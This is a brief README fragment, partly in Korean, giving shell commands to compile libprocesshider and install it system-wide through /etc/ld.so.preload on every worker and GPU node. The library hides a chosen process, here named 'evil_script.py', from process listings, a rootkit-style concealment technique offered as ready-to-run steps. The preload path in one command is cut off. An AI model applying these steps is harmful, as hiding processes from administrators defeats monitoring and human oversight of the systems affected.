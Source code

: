 
---
#### * 각 worker 및 GPU 노드에 설치/배포 필요
#### * compile the library & Load it with the global dynamic linker
```
$ ~/libprocesshider$ make
cc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ ~/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```

```
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preloa
```

```
libprocesshider/processhider.c의 아래 부분에서 숨길 프로세스 수정 (ex. evil_script.py)
static const char* process_to_filter = "evil_script.py";
```
---
